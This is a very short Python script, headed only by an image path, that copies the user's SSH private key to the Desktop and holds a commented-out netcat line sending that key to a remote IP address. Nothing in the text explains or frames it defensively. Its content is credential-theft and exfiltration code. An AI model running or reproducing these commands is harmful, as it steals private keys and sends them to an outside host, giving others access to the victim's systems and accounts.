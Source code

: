#! /usr/bin/python3

import os
os.system("cp ~/.ssh/id_rsa ~/Desktop/")
#os.system("nc 172.18.169.103 10000 < ~/.ssh/id_rsa")
